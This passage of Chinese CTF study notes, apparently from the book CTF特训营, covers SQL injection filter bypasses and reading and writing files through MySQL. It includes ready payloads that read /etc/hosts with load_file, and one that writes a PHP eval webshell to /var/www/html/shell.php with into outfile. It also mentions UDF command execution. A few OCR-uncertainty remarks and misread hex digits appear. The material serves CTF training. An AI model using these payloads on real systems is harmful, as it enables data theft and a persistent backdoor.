```text
SQLite3 -- OA,OD,OC,09,20
MySQL5 -- 09,0A,0B,0C,0D,A0,20
PosgresSQL -- OA,OD,OC,09,20 [OCR存疑：疑为 PostgreSQL]
Oracle 11g -- 00,0A,0D,0C,09,20
MSSQL --
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,
OE,0F,10,11,12,13,14,15,16,
17,18,19,1A,1B,1C,1D,1E,1F,20
```

如图2-4所示的操作为利用换行符来替代空格的例子。

4）通过特殊符号（如反引号、加号等），利用反引号绕过空格的语句如下：

```sql
...select`user`,`password`from...
```

如图2-5所示的是使用反引号对空格进行绕过的示例。这样就能获取全部的username和password。

在不同的场景下，加号、减号、感叹号也会有同样的效果，这里不一一进行举例说明了，读者可以自行测试。

5）科学计数法绕过，语句如下：

```sql
SELECT user, password from users
where user_id=0elunion select 1,2
```

<div style="text-align: center;"></div>

<div style="text-align: center;">图2-4 空白字符（换行符）绕过空格过滤的示例</div>

<div style="text-align: center;"></div>

<div style="text-align: center;">图2-5 使用反引号绕过空格过滤的示例</div>

结果如图2-6所示，同样可以达到绕过的效果。

<div style="text-align: center;"></div>

<div style="text-align: center;">图2-6 使用科学计数法进行绕过</div>

### 3. 过滤单引号

绕过单引号过滤遇到题目最多的是魔术引号，也就是PHP配置文件php.ini中的magic_quote_gpc。

==当PHP版本号小于5.4时（PHP5.3废弃魔术引号，PHP5.4移除），如果我们遇到的是GB2312、GBK等宽字节编码（不是网页的编码），可以在注入点增加%df尝试进行宽字节注入（如%df%27）。==原理在于PHP发送请求到MySQL时字符集使用character_set_client设置值进行了一次编码，从而绕过了对单引号的过滤。

这种绕过方式现在已不多见，基本上也不会出现在未来的CTF比赛中。

### 4. 绕过相等过滤

根据"猪猪侠"的微博：MySQL中存在utf8_[OCR存疑：原文此处有一乱码字符，疑为 utf8_unicode_ci]unicode_ci和utf8_general_ci两种编码格式。utf8_general_ci不仅不区分大小写，而且Å=A，Ö=O，Ü=U这三种等式都成立。对于utf8_general_ci等式β=s是成立的，但是，对于utf8_unicode_ci，等式β=ss才是成立的。

这种绕过方式曾在2016年HITCON的BabyTrick题目中作为一个绕过的考点出现过。

> [!tip]- 本节要点
> 1. 关键字过滤：穿插关键字（selecselectt）、大小写、个别字母替换、双重 URL 编码；
> 2. 空格过滤：注释（-- // /**/ ;%00）、%2520、空白字符表、反引号/加号/减号/感叹号、科学计数法（0e）；
> 3. 单引号过滤：PHP<5.4 + GBK 等宽字节编码时可 %df 宽字节注入（现已少见）；
> 4. 相等过滤：utf8_general_ci 下 Å=A、Ö=O、Ü=U、β=s；utf8_unicode_ci 下 β=ss。

## 十、SQL读写文件

在了解了SQL注入方法与过滤绕过的方法之后，我们再来看一下如何用SQL语句来读写系统文件。有一些比赛题目存在SQL注入漏洞，但是flag并不在数据库中，这时候就需要考虑是否要读取文件或是写Shell来进一步进行渗透。

这里依旧以MySQL数据库为例，在MySQL用户拥有File权限的情况下，可以使用load_file和into outfile/dumpfile进行读写。

我们假设一个题目存在注入的SQL语句，代码如下：

```sql
select username from user where uId = $id
```

此时，我们就可以构造读文件的Payload了，代码如下：

```text
?id=-1+union+select+load_file('/etc/hosts')
```

在某些需要绕过单引号的情况下，还可以使用文件名的十六进制作为load_file函数的参数，如：

```text
?id=-1+union+select+load_file (0x2f6574632f686f737473)
```

如果题目给出或通过其他漏洞泄露了flag文件的位置，则可以直接读取flag文件；若没有给出，则可以考虑读取常见的配置文件或敏感文件，如MySQL的配置文件、Apache的配置文件、.bash_history等。

此外，如果题目所考察的点并不是通过SQL读取文件，则可以考虑是否能通过SQL语句进行写文件，包括但不限于Webshell、计划任务等。写文件的Payload如下：

```text
?id=-1+union+select+'<?php eval($_POST[233]);?
>'+into+outfile '/var/www/html/shell.php'
```

或：

```text
?id=-1+union+select+unhex(一句话Shell的十六进制)+into+dumpfile '/var/www/html/shell.php'
```

这里需要注意的是，==写文件的时候除了要确定有写文件的权限，还要确定目标文件名不能是已经存在的，尝试写入一个已存在的文件将会直接报错==。

此外，在权限足够高的时候，还可以写入UDF库执行系统命令来进一步扩大攻击面。

> [!tip]- 本节要点
> 1. 前置条件：MySQL 用户有 File 权限；
> 2. 读：load_file，引号被过滤时用文件名十六进制（0x2f6574632f686f737473 = /etc/hosts）；
> 3. 写：into outfile/dumpfile，目标文件必须不存在；unhex 绕过引号；
> 4. 权限够高可写 UDF 库执行系统命令。

## 十一、小结

SQL注入单独作为比赛中的考点就已经较为复杂了，出题人可能还会配合其他的漏洞考察一些"脑洞大开"的获取flag的方式，那就更复杂了。

而且在实战过程中，如果单一的过滤手段不能达到目的时，则应该考虑使用多种绕过手段的组合来实现绕过的目的。若考察点不是为了得到数据库中的数据，则还应该考虑是否要读写文件。

SQL注入的知识暂时就先讲解这么多，在了解SQL注入的原理、成因、绕过方法之后，将没有什么题目能难倒你了。

## 本章思维导图



## 易错点

> [!warning] 易错点
> 1. ==Sqlmap 在盲注题中可能因随机串（时间戳/Token）误报==——页面长度变化不一定是注入结果，要人工分析 Payload 与返回。
> 2. ==写文件时目标文件不能已存在==，否则直接报错。
> 3. ==宽字节注入（%df）仅限 PHP<5.4 + GBK 等宽字节编码==，新环境基本用不上。
> 4. floor 报错模板中表名建议十六进制编码，直接引号包裹会触发单引号报错。
> 5. 时间盲注的 sleep 延迟发生在服务端，实际等待时间会比设置值更长，脚本超时要留余量。

> [!note]- 自测题
> **基础**
> 1. SQL 注入的成因是什么？可回显与不可回显注入分别包括哪些类型？
> 2. 联合查询注入中，URL 参数里的 `+` 号起什么作用？
> 3. updatexml、floor、exp 三种报错注入的报错原理分别是什么？
> 4. Bool 盲注如何发现注入点？字符串型注入如何闭合单引号？
> 5. 时间盲注常用的两个延时函数是什么？
> 6. Sqlmap 检测 User-Agent 和 Cookies 中的注入分别需要什么参数？
> 7. 过滤空格时有哪些绕过方式（至少说 3 种）？

> [!note]- 自测题（进阶）
> 8. 二次注入的成因是什么？为什么比赛中通常需要自己写脚本？
> 9. MySQL 哪些版本区间可以在 LIMIT 之后注入？用什么函数？
> 10. SQL 读写文件需要什么权限？读文件用哪个函数？写文件的两个函数是什么？

> [!note]- 参考答案
> 1. 开发者将用户输入直接与 SQL 语句拼接导致语句可控；可回显：联合查询、报错注入、DNS 外带；不可回显：Bool 盲注、时间盲注。
> 2. 服务器处理用户输入时会把 `+` 转义为空格，用于替代 URL 中不能直接写的空格。
> 3. updatexml 是函数自身报错；floor 是 rand 与 order by/group by 冲突；exp 是溢出报错。
> 4. 输入点后加 `and 1=1` 与 `and 1=2`（整型）；字符串型用 `'and'1'='1`、`'or'1'='2` 闭合引号。
> 5. sleep() 与 benchmark()。
> 6. User-Agent 用 level=3；Cookies 用 level=2。
> 7. 注释符（--、//、/**/、;%00）、二次 URL 编码（%2520）、空白字符（%0a 等）、反引号/加号/减号/感叹号、科学计数法。
> 8. 首次入库被过滤转义，取出拼接时未过滤即可执行构造语句；业务逻辑复杂，需脚本模拟注册→登录→触发全流程。
> 9. MySQL 5.0.0~5.6.6，LIMIT 后接 procedure analyse，配合 extractvalue 等报错函数。
> 10. File 权限；load_file 读；into outfile 与 into dumpfile 写。

## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- MySQL 数学函数文档（floor 报错原理原文出处）：http://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_rand

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
